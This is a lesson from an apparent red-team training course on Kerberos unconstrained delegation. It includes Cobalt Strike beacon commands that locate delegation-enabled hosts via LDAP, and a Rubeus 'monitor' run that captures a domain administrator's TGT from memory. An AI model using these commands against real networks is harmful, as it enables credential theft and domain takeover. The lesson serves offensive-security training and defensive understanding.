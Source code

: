 # Unconstrained Delegation

Kerberos "delegation" is a feature that allows one principal to request access to resources on behalf of another principal.  Imagine a scenario where users authenticate to a front-end web application using Kerberos, but that web application leverages another back-end service, such as a database or file share.  When a user performs an operation that needs to be processed on the back-end service, the web application needs a way to authenticate to that service as the user in question.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/63eba393f431ea0cde0010950c880a03.png)

We know from the Kerberos introduction in [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=67851a86ba9789af1107f5f9) that the user authenticates to the domain controller and obtains a TGT, which it then uses to request service tickets.  But in this scenario, how could the web server go about obtaining an MSSQLSvc ticket for the user?  It can't ask the domain controller directly because it doesn't know the user's secret.  This is what delegation was designed for.

There are multiple types of delegation in modern Windows:

* Unconstrained Delegation.
* Constrained Delegation.
* Role-Based Constrained Delegation.

We will cover each in turn, but this lesson will focus on unconstrained.  This is the first type of delegation that was introduced and also turned out to be the most dangerous.  It's enabled by setting a flag called `TRUSTED_FOR_DELEGATION` on the UserAccountControl attribute of the computer object.

```batch
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
sAMAccountName: CONT-DC-1$
sAMAccountName: CONT-WEB-1$
```

Domain controllers are always configured with unconstrained delegation, but this isn't much of an issue since having local admin access to a domain controller is pretty much game over anyway.

When a client requests a service ticket for an SPN running under the context of this computer account (e.g. the HTTP service), the domain controller sets a flag in the TGS-REP called `ok-as-delegate`.  This tells the requesting client that the server specified in the ticket is trusted for delegation; so when it sends the AP-REQ to the service, it includes both the service ticket and a copy of the user's TGT.  The computer running the service will then be able to cache the user's TGT in memory, and use it to request service tickets on their behalf in the future.

You may be able to see why this type of delegation is so bad from a security perspective.  If an adversary can compromise a computer configured for unconstrained delegation, they can extract these TGTs from memory and use them to request service tickets on behalf of those users to any other service in the entire domain.

Rubeus has a `monitor` command that periodically captures and displays TGTs as users authenticate to a service.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap

[*] 19/02/2025 14:56:32 UTC - Found new TGT:

  User                  :  dyork@CONTOSO.COM
  StartTime             :  19/02/2025 14:56:16
  EndTime               :  20/02/2025 00:56:16
  RenewTill             :  26/02/2025 14:56:16
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFj[...snip...]kNPTQ==
```

This output shows that we have captured a TGT from a domain administrator, dyork.

To terminate Rubeus, use the `jobs` and `jobkill` commands.

```batch
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    2468  .NET assembly

beacon> jobkill 0
[+] job 0 completed
```
